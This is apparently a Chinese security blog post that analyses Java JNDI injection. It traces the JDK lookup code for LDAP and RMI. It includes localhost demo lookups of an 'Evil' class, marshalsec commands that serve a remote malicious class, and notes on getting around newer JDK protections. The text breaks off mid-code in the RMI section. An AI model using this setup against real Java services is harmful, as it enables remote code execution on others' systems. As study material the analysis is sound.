








+++
title= "JNDI注入"
slug= "jndi-injection"
description= ""
date= "2025-12-30T22:07:18+08:00"
lastmod= "2025-12-30T22:07:18+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 了解

JNDI (Java Naming and Directory Interface) 注入的核心原理在于 Java 允许通过 JNDI 接口动态加载外部资源（对象）。

当攻击者可以控制 JNDI `lookup` 函数的参数（URI）时，他们可以将其指向一个恶意的 RMI 或 LDAP 服务。如果被攻击的客户端配置允许加载远程 codebase，JNDI 会自动下载并实例化攻击者指定的恶意类，从而触发代码执行。

JNDI 注入利用了 Java 的 **Naming References（命名引用）** 机制。

- **正常情况：**lookup 获取的是绑定在注册表中的现有对象。
- **注入情况：** 攻击者在恶意的 RMI/LDAP 注册表中绑定一个 **Reference 对象**（而不是直接的对象实例）。这个 Reference 对象包含了三个关键信息：

1. **ClassName**: 目标类的名称（恶意类名）。
2. **Factory**: 用于创建该类实例的工厂类名称。
3. **FactoryLocation**: 该工厂类所在的 URL 地址（攻击者的 HTTP 服务器）。

当受害者的 JNDI 客户端收到这个 Reference 后，它发现本地没有这个类，于是就会去`FactoryLocation`指向的地址下载`.class`文件并加载运行。

同时 JNDI 注入对版本有限制

| **协议** | **JDK6**  | **JDK7**  | **JDK8**  | **JDK11**  |
| -------- | --------- | --------- | --------- | ---------- |
| LADP     | 6u211以下 | 7u201以下 | 8u191以下 | 11.0.1以下 |
| RMI      | 6u132以下 | 7u122以下 | 8u113以下 | 无         |

- 低版本 JDK：客户端发现本地没有该 Factory 类，会去 `classFactoryLocation` 指定的地址下载 `.class` 字节码并实例化。恶意代码通常隐藏在 Factory 类的 `static {}` 静态代码块或构造函数中，在实例化时触发 RCE。
- 高版本 JDK (8u191+)：由于 `trustURLCodebase` 默认为 false，远程下载被禁止。此时攻击者通常转向利用本地 ClassPath 中已存在的 Factory 类（如 Tomcat `BeanFactory`）或利用 LDAP 返回序列化数据来攻击本地资源的 gadget（ldapMAP）

## JNDI注入流程

### ldap

写个小 demo

```java
package org.example;

import javax.naming.InitialContext;

public class Test1 {
    public static void main(String[] args) throws Exception {
        InitialContext context = new InitialContext();
        context.lookup("ldap://127.0.0.1:1389/#Evil");
    }
}
```

开启 JNDI

```java
python3 -m http.server 8000

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPfServer "http://127.0.0.1:8000/#Evil"
```



debug 看看执行流程

```java
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```

跟进

```java
protected Context getURLOrDefaultInitCtx(String name)
    throws NamingException {
    if (NamingManager.hasInitialContextFactoryBuilder()) {
        return getDefaultInitCtx();
    }
    String scheme = getURLScheme(name);
    if (scheme != null) {
        Context ctx = NamingManager.getURLContext(scheme, myProps);
        if (ctx != null) {
            return ctx;
        }
    }
    return getDefaultInitCtx();
}
```

第一步检查是否有全局的工厂构建器 (FactoryBuilder)，一般都没有，然后获取 URI 的 scheme，如果有协议名，就让 NamingManager 根据协议名去找对应的 Context 实现类，这里是 LDAP，跟进 getURLContext

```java
public static Context getURLContext(String scheme,
                                        Hashtable<?,?> environment)
        throws NamingException
    {
        // pass in 'null' to indicate creation of generic context for scheme
        // (i.e. not specific to a URL).

            Object answer = getURLObject(scheme, null, null, null, environment);
            if (answer instanceof Context) {
                return (Context)answer;
            } else {
                return null;
            }
    }
```

跟进 getURLObject，在这个方法处理之后，检查是否是 Context 对象，如果是，直接强转返回

```java
private static Object getURLObject(String scheme, Object urlInfo,
                                       Name name, Context nameCtx,
                                       Hashtable<?,?> environment)
            throws NamingException {

        // e.g. "ftpURLContextFactory"
        ObjectFactory factory = (ObjectFactory)ResourceManager.getFactory(
            Context.URL_PKG_PREFIXES, environment, nameCtx,
            "." + scheme + "." + scheme + "URLContextFactory", defaultPkgPrefix);

        if (factory == null)
          return null;

        // Found object factory
        try {
            return factory.getObjectInstance(urlInfo, name, nameCtx, environment);
        } catch (NamingException e) {
            throw e;
        } catch (Exception e) {
            NamingException ne = new NamingException();
            ne.setRootCause(e);
            throw ne;
        }

    }
```

`Context.URL_PKG_PREFIXES` (搜索路径)，默认值通常包含 `com.sun.jndi.url`，如果引入了其他第三方 JNDI 实现（比如 JBoss 或 WebLogic），可能会往这个列表里添加自己的包名。

参数拼接，`"." + scheme + "." + scheme + "URLContextFactory"`。

假设 scheme 是 ldap，默认前缀是`com.sun.jndi.url`，`ResourceManager.getFactory`会把它们拼接起来，尝试加载`com.sun.jndi.url.ldap.ldapURLContextFactory`，所以后续逻辑就是如果找到了工厂类（这里是 ldapURLContextFactory），调用它的 getObjectInstance 方法。

跟进 getFactory

```java
public static Object getFactory(String propName, Hashtable<?,?> env,
            Context ctx, String classSuffix, String defaultPkgPrefix)
            throws NamingException {

        // Merge property with provider property and supplied default
        String facProp = getProperty(propName, env, ctx, true);
        if (facProp != null)
            facProp += (":" + defaultPkgPrefix);
        else
            facProp = defaultPkgPrefix;

        // Cache factory based on context class loader, class name, and
        // property val
        ClassLoader loader = helper.getContextClassLoader();
        String key = classSuffix + " " + facProp;

        Map<String, WeakReference<Object>> perLoaderCache = null;
        synchronized (urlFactoryCache) {
            perLoaderCache = urlFactoryCache.get(loader);
            if (perLoaderCache == null) {
                perLoaderCache = new HashMap<>(11);
                urlFactoryCache.put(loader, perLoaderCache);
            }
        }

        synchronized (perLoaderCache) {
            Object factory = null;

            WeakReference<Object> factoryRef = perLoaderCache.get(key);
            if (factoryRef == NO_FACTORY) {
                return null;
            } else if (factoryRef != null) {
                factory = factoryRef.get();
                if (factory != null) {  // check if weak ref has been cleared
                    return factory;
                }
            }

            // Not cached; find first factory and cache
            StringTokenizer parser = new StringTokenizer(facProp, ":");
            String className;
            while (factory == null && parser.hasMoreTokens()) {
                className = parser.nextToken() + classSuffix;
                try {
                    // System.out.println("loading " + className);
                    factory = helper.loadClass(className, loader).newInstance();
                } catch (InstantiationException e) {
                    NamingException ne =
                        new NamingException("Cannot instantiate " + className);
                    ne.setRootCause(e);
                    throw ne;
                } catch (IllegalAccessException e) {
                    NamingException ne =
                        new NamingException("Cannot access " + className);
                    ne.setRootCause(e);
                    throw ne;
                } catch (Exception e) {
                    // ignore ClassNotFoundException, IllegalArgumentException,
                    // etc.
                }
            }

            // Cache it.
            perLoaderCache.put(key, (factory != null)
                                        ? new WeakReference<>(factory)
                                        : NO_FACTORY);
            return factory;
        }
    }
```

获取环境变量或系统属性中定义的包前缀，比如JBOSS 的`"org.jboss.naming:com.sun.jndi.url"`，然后检查缓存，如果有就直接加载类。



核心部分，切割包名列表然后拼接包名和类后缀，`com.sun.jndi.url.ldap.ldapURLContextFactory`

尝试加载并实例化，如果没找到，异常被吞掉，继续循环查找。最后写入缓存，记一个 NO_FACTORY 标记。

获取到`ldapURLContextFactory`之后，就是调用的`ldapURLContextFactory#lookup`

```java
public Object lookup(String var1) throws NamingException {
    if (LdapURL.hasQueryComponents(var1)) {
        throw new InvalidNameException(var1);
    } else {
        return super.lookup(var1);
    }
}
```

跟进`GenericURLContext#lookup`

```java
public Object lookup(String var1) throws NamingException {
        ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
        Context var3 = (Context)var2.getResolvedObj();

        Object var4;
        try {
            var4 = var3.lookup(var2.getRemainingName());
        } finally {
            var3.close();
        }

        return var4;
    }
```

初始化一个底层的 LDAP Context，并配置好连接目标。跟进`PartialCompositeContext#lookup`

```java
public Object lookup(Name var1) throws NamingException {
        PartialCompositeContext var2 = this;
        Hashtable var3 = this.p_getEnvironment();
        Continuation var4 = new Continuation(var1, var3);
        Name var6 = var1;

        Object var5;
        try {
            for(var5 = var2.p_lookup(var6, var4); var4.isContinue(); var5 = var2.p_lookup(var6, var4)) {
                var6 = var4.getRemainingName();
                var2 = getPCContext(var4);
            }
        } catch (CannotProceedException var9) {
            Context var8 = NamingManager.getContinuationContext(var9);
            var5 = var8.lookup(var9.getRemainingName());
        }

        return var5;
    }
```

NDI 支持一种叫做 **Federation (联邦命名)** 的机制。 意思是一个名字可能横跨多个系统。比如`ldap://xx/cn=A/cn=B`，可能前半段归 LDAP 管，解析到中间发现指向了另一个 RMI 服务，后半段就得归 RMI 管，这里在通过循环层层解析

```java
protected Object p_lookup(Name var1, Continuation var2) throws NamingException {
    Object var3 = null;
    HeadTail var4 = this.p_resolveIntermediate(var1, var2);
    switch (var4.getStatus()) {
        case 2:
            var3 = this.c_lookup(var4.getHead(), var2);
            if (var3 instanceof LinkRef) {
                var2.setContinue(var3, var4.getHead(), this);
                var3 = null;
            }
            break;
        case 3:
            var3 = this.c_lookup_nns(var4.getHead(), var2);
            if (var3 instanceof LinkRef) {
                var2.setContinue(var3, var4.getHead(), this);
                var3 = null;
            }
    }
```

`p_resolveIntermediate`会把名字拆分成 Head 和 Tail，并判断当前状态 (Status)。在 LDAP 的实现中，`PartialCompositeContext`的具体子类通常是`ComponentContext`，`ComponentContext.p_lookup`会进一步调用`com.sun.jndi.ldap.LdapCtx.c_lookup`

```java
protected Object c_lookup(Name var1, Continuation var2) throws NamingException {
    var2.setError(this, var1);
    Object var3 = null;

    Object var4;
    try {
        SearchControls var22 = new SearchControls();
        var22.setSearchScope(0);
        var22.setReturningAttributes((String[])null);
        var22.setReturningObjFlag(true);
        LdapResult var23 = this.doSearchOnce(var1, "(objectClass=*)", var22, true);
        this.respCtls = var23.resControls;
        if (var23.status != 0) {
            this.processReturnCode(var23, var1);
        }

        if (var23.entries != null && var23.entries.size() == 1) {
            LdapEntry var25 = (LdapEntry)var23.entries.elementAt(0);
            var4 = var25.attributes;
            Vector var8 = var25.respCtls;
            if (var8 != null) {
                appendVector(this.respCtls, var8);
            }
        } else {
            var4 = new BasicAttributes(true);
        }

        if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
            var3 = Obj.decodeObject((Attributes)var4);
        }

        if (var3 == null) {
            var3 = new LdapCtx(this, this.fullyQualifiedName(var1));
        }
    } catch (LdapReferralException var20) {
        LdapReferralException var5 = var20;
        if (this.handleReferrals == 2) {
            throw var2.fillInException(var20);
        }

        while(true) {
            LdapReferralContext var6 = (LdapReferralContext)var5.getReferralContext(this.envprops, this.bindCtls);

            try {
                Object var7 = var6.lookup(var1);
                return var7;
            } catch (LdapReferralException var18) {
                var5 = var18;
            } finally {
                var6.close();
            }
        }
    } catch (NamingException var21) {
        throw var2.fillInException(var21);
    }

    try {
        return DirectoryManager.getObjectInstance(var3, var1, this, this.envprops, (Attributes)var4);
    } catch (NamingException var16) {
        throw var2.fillInException(var16);
    } catch (Exception var17) {
        NamingException var24 = new NamingException("problem generating object using object factory");
        var24.setRootCause(var17);
        throw var2.fillInException(var24);
    }
}
```

`doSearchOnce`负责联网，拿回恶意数据，`Obj.decodeObject`把数据变成`Reference`对象，跟进`DirectoryManager.getObjectInstance`


```java
public static Object
        getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment, Attributes attrs)
        throws Exception {

            ObjectFactory factory;

            ObjectFactoryBuilder builder = getObjectFactoryBuilder();
            if (builder != null) {
                // builder must return non-null factory
                factory = builder.createObjectFactory(refInfo, environment);
                if (factory instanceof DirObjectFactory) {
                    return ((DirObjectFactory)factory).getObjectInstance(
                        refInfo, name, nameCtx, environment, attrs);
                } else {
                    return factory.getObjectInstance(refInfo, name, nameCtx,
                        environment);
                }
            }

            // use reference if possible
            Reference ref = null;
            if (refInfo instanceof Reference) {
                ref = (Reference) refInfo;
            } else if (refInfo instanceof Referenceable) {
                ref = ((Referenceable)(refInfo)).getReference();
            }

            Object answer;

            if (ref != null) {
                String f = ref.getFactoryClassName();
                if (f != null) {
                    // if reference identifies a factory, use exclusively

                    factory = getObjectFactoryFromReference(ref, f);
                    if (factory instanceof DirObjectFactory) {
                        return ((DirObjectFactory)factory).getObjectInstance(
                            ref, name, nameCtx, environment, attrs);
                    } else if (factory != null) {
                        return factory.getObjectInstance(ref, name, nameCtx,
                                                         environment);
                    }
                    // No factory found, so return original refInfo.
                    // Will reach this point if factory class is not in
                    // class path and reference does not contain a URL for it
                    return refInfo;

                } else {
                    // if reference has no factory, check for addresses
                    // containing URLs
                    // ignore name & attrs params; not used in URL factory

                    answer = processURLAddrs(ref, name, nameCtx, environment);
                    if (answer != null) {
                        return answer;
                    }
                }
            }
```

没啥好说的，检查是否是 Reference 对象，然后获取类名，再去加载

```java
static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

这个方法比较重要，首先他就直接尝试在本地加载工厂类，绕过高版本的一种方法，如果加载失败，就进行远程加载，`ref.getFactoryClassLocation()`拿到了`http://127.0.0.1:8000/`，`helper.loadClass(..., codebase)`Java 建立 HTTP 连接，下载 Evil.class 字节码到内存中，最后进行实例化。

在这里我就好奇，那利用 LDAP 打反序列化绕过高版本的那条路代码在哪里呢，都跟到最后了还没看到，其实就在`com.sun.jndi.ldap.Obj.decodeObject`

```java
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])var1.get(), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
//static final String[] JAVA_ATTRIBUTES = new String[]{"objectClass", "javaSerializedData", "javaClassName", "javaFactory", "javaCodeBase", "javaReferenceAddress", "javaClassNames", "javaRemoteLocation"};
```

检查是否有 javaSerializedData 属性，如果有直接反序列化，然后检查 rmi 对象，有的话解析，最后是Reference 注入。

完整调用栈

```java
at Evil.<init>(Evil.java:1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
at javax.naming.spi.DirectoryManager.getObjectInstance(DirectoryManager.java:189)
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1085)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at org.example.Test1.main(Test1.java:8)
```

还有一种常用的是用 Reference 这个类

```java
package org.example;

import javax.naming.Reference;
import javax.naming.spi.NamingManager;

public class Test2 {
    public static void main(String[] args) throws Exception {
        Reference ref = new Reference("Evil", "Evil", "http://127.0.0.1:8000/");
        NamingManager.getObjectInstance(ref, null, null, null);

    }
}
```

调用栈

```java
at Evil.<init>(Evil.java:1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
at org.example.Test2.main(Test2.java:9)
```

光看调用栈就可以明白，他是直接到了获取引用之后生成对象

`JNDI`默认支持自动转换的协议有：

| **协议名称**         | **协议URL**    | **Context类**                                           |
| -------------------- | -------------- | ------------------------------------------------------- |
| DNS协议              | `dns://`       | `com.sun.jndi.url.dns.dnsURLContext`                    |
| RMI协议              | `rmi://`       | `com.sun.jndi.url.rmi.rmiURLContext`                    |
| LDAP协议             | `ldap://`      | `com.sun.jndi.url.ldap.ldapURLContext`                  |
| LDAP协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
| IIOP对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
| IIOP对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
| IIOP对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |

### rmi

同样也 debug 跟进下方法，看看和 LDAP 不同的方法

```java
package org.example;

import javax.naming.InitialContext;

public class Test3 {
    public static void main(String[] args) throws Exception {
        String uri="rmi://127.0.0.1:1099/#Evil";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(uri);
    }
}
```

开启rmi 服务

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://127.0.0.1:8000/#Evil"
```

前面协议转换获取`com.sun.jndi.url.rmi.rmiURLContext`是一样的，然后调用的是`com.sun.jndi.toolkit.url.GenericURLContext.lookup`因为 rmiURLContext 并没有实现 lookup 方法，



```java
public Object lookup(String var1) throws NamingException {
        ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
        Context var3 = (Context)var2.getResolvedObj();

        Object var4;
        try {
            var4 = var3.lookup(var2.getRemainingName());
        } finally {
            var3.close();
        }

        return var4;
    }
```

直接跟进，和 LADP 一样的

```java
public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
